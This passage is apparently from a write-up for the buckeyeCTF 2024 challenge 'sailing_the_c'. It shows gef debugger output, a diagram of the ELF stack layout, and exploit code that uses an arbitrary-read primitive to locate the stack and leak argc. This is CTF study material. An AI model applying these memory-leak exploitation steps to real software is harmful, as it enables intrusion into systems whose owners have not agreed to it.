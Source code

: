 We start by scanning for references to the stack in libc

```python
gef➤  scan libc stack
[+] Searching for addresses in 'libc' that point to 'stack'
libc.so.6: 0x00007ffff7fa2530│+0x1530: 0x00007fffffffe06a  →  0x4853006c6c616863 ("chall"?)
libc.so.6: 0x00007ffff7fa2538│+0x1538: 0x00007fffffffe040  →  "/mnt/d/CTFs/buckeyeCTF_2024/sailing_the_c/chall"
libc.so.6: 0x00007ffff7fa2a20│+0x1a20: 0x00007fffffffddc8  →  0x00007fffffffe040  →  "/mnt/d/CTFs/buckeyeCTF_2024/sailing_the_c/chall"
```

Notice that the third reference is to the pointer to the name of the executable file being run i.e. it is `argv[0]`. While we might attempt to use the offset of the executable name to find out the stack base addr by assuming that it will remain fixed, this assumption does not hold because of possibly different `envp`, `auxv` sizes, etc. 

As an illustration taken from https://articles.manugarg.com/aboutelfauxiliaryvectors (which is for x86 and not x86-64, but it's the same for both), the structure of base of the stack is as shown 

```
position            content                     size (bytes) + comment
  ------------------------------------------------------------------------
  stack pointer ->  [ argc = number of args ]     4
                    [ argv[0] (pointer) ]         4   (program name)
                    [ argv[1] (pointer) ]         4
                    [ argv[..] (pointer) ]        4 * x
                    [ argv[n - 1] (pointer) ]     4
                    [ argv[n] (pointer) ]         4   (= NULL)

                    [ envp[0] (pointer) ]         4
                    [ envp[1] (pointer) ]         4
                    [ envp[..] (pointer) ]        4
                    [ envp[term] (pointer) ]      4   (= NULL)

                    [ auxv[0] (Elf32_auxv_t) ]    8
                    [ auxv[1] (Elf32_auxv_t) ]    8
                    [ auxv[..] (Elf32_auxv_t) ]   8
                    [ auxv[term] (Elf32_auxv_t) ] 8   (= AT_NULL vector)

                    [ padding ]                   0 - 16

                    [ argument ASCIIZ strings ]   >= 0
                    [ environment ASCIIZ str. ]   >= 0

  (0xbffffffc)      [ end marker ]                4   (= NULL)

  (0xc0000000)      < bottom of stack >           0   (virtual)
  ------------------------------------------------------------------------
```

We have the address to `argv[0]`, but don't know how many `envp` and `auxv` there might be. We know that `argc` is almost definitely 1, but to err on the side of caution, we first leak `argc`

```c
libc_offset_ref_to_stack = 0x00007ffff7fada20 - 0x00007ffff7d92000
argc_addr = leakfromaddr(libc.address + libc_offset_ref_to_stack, r) - 8
argc = leakfromaddr(argc_addr, r)
```
